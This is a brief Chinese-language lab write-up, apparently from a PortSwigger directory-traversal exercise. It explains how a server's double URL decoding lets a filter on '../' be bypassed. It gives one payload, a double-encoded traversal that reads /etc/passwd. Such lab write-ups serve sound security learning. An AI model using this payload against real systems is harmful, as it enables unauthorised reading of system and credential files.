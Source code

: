 服务器将路径中的url二次解码

虽然对路径中的../../进行了细致的过滤，拦截

但是也可以url编码绕过



payload:

```javascript
filename=..%252f..%252f..%252fetc/passwd
```

%25是%的url编码，第一次解码时变成了%2f。二次解码时就成了/



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/目录遍历/images/C6BA372DB8DD40CDB41C332200D8DE78clipboard.png)

